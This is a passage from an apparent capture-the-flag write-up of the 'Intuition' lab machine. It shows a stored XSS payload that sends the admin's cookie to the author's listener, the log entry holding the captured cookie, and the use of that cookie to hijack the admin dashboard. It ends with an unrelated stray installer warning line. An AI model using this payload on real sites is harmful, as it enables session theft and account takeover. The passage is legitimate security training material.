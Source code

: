 My hacker senses tingled. Could I use the same trick to grab `admin`'s cookie? I submitted another report with the same XSS payload

```bash
<img src=# onerror="fetch('http://10.10.14.8:8000/?cookie='+document.cookie);" />
```

Then I changed the priority of the report to see if that triggered anything

![img](/assets/img/Intuition/10.webp)

And boom, a new cookie appeared!

```bash
10.10.11.15 - - [29/Jun/2024 17:22:48] "GET /?cookie=user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5 HTTP/1.1" 200
```

I replaced my cookie with this new one, and boom, I got access to the `Dashboard - admin`
### Dashboard - admin

The admin dashboard had a few interesting endpoints:

- /list_reports
- /backup
- /create_pdf_report

![img](/assets/img/Intuition/11.webp)


[WARNING]: - root.tar.gz was NOT installed successfully: Unknown error when attempting to call Galaxy at